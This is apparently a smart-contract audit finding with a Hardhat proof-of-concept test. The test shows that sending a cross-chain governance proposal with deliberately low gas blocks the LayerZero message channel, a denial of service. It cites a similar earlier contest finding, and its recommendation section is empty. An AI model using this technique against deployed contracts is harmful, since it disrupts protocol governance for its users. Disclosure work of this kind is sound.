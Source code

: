 Change the `node_modules/@layerzerolabs/solidity-examples/contracts/lzApp/mocks/LZEndpointMock.sol::receivePayload` as this: https://gist.github.com/Slavchew/072992cdc1a3a071bf649fa3c23fd657

Add the following test to `tests/Cross-chain/Omnichain.ts` and run it with:

```
npx hardhat test --grep "Test C1"
```

```solidity
it("Test C1", async function () {
    const payload = await getPayload(NormalTimelock.address);
    
    // Change the gas to 2000
    adapterParams = ethers.utils.solidityPack(["uint16", "uint256"], [1, 2000]);
    // Calculate the nativeFee for updated adapterParams
    nativeFee = (await sender.estimateFees(remoteChainId, payloadWithId(payload), adapterParams))[0];
    
    // This will fail on destination lzReceive and store the execution in storedPayload, but will assume successful execution and emit ExecuteRemoteProposal
    await expect(await sender.connect(signer1).execute(remoteChainId, payload, adapterParams, {
      value: nativeFee,
    })).to.emit(sender, "ExecuteRemoteProposal");

    // Update the gas and try again the same proposal
    adapterParams = ethers.utils.solidityPack(["uint16", "uint256"], [1, 10000]);
    nativeFee = (await sender.estimateFees(remoteChainId, payloadWithId(payload), adapterParams))[0];

    // This will fail in execute try/catch because it was already stored in storedPayload, and will store it in storedExecutionHashes
    await expect(await sender.connect(signer1).execute(remoteChainId, payload, adapterParams, {
      value: nativeFee,
    })).to.emit(sender, "StorePayload");

    const pId = await getLastSourceProposalId();

    // This will fail with 'LayerZero: in message blocking', because the cross-chain communication is blocked
    await sender
         .connect(signer1)
         .retryExecute(pId, remoteChainId, payloadWithId(payload), adapterParams, nativeFee, {
           value: nativeFee,
         });
  });
```

![Screenshot 2024-04-01 at 0.53.33.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/266b66e0-da3c-4ce5-9dfd-48d3055d679d/29da3ff1-99f7-4f69-92f7-220d2d7c500b/Screenshot_2024-04-01_at_0.53.33.png)

Issue with the same root case was founded in Maia contest, [M-09](https://code4rena.com/reports/2023-09-maia#m-09-message-channels-can-be-blocked-resulting-in-dos)

**Recommendation:**
